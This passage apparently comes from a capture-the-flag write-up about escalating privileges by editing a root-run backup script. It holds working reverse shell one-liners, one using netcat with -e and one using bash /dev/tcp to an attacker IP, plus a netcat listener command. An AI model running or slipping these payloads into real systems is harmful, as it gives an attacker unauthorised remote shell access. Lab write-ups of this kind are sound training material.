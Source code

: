 ```bash

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

```
- my initial thoughts are that this is simply for the creation of the tar archive that we already decrypted 

However the part that matters to us is not the content but the fact that this script can be run as the root user and we have access to it. This will hopefully allow us to create a reverse shell.

Unfortunately we are not allowed to write to the script but since we should be the owners of the script lets try giving ourselves the permissions with `chmod +w etc/mp3backups/backup.sh`,

![](https://raw.githubusercontent.com/tedthecaver/tedthecaver.github.io/main/_posts/IMG-20241222233750594.png)
- we gave ourselves the access let's try setting up the reverse shell now 

Ok script changing editing works! Let's setup a shell now,

```bash
#!/bin/bash

nc 10.0.0.81 5555 -e /bin/bash
```
- we set up the listener on our attacker machine with `nc -lvnp 5555` and the shell on the target machine with the script

Running the script with `./backup.sh` we meet this error, 

```
nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
         [-P proxy_username] [-p source_port] [-q seconds] [-s source]
         [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
         [-x proxy_address[:port]] [destination] [port]
```
- apparently ubuntu which is the host machine operating system has 2 packages, netcat and ncat which make using the `-e` flag complicated

Let's pick up a basic bash shell from _revshells.com_ then,

```bash
#!/bin/bash

sh -i >& /dev/tcp/10.9.0.81/5555 0>&1
```
- the updated script 
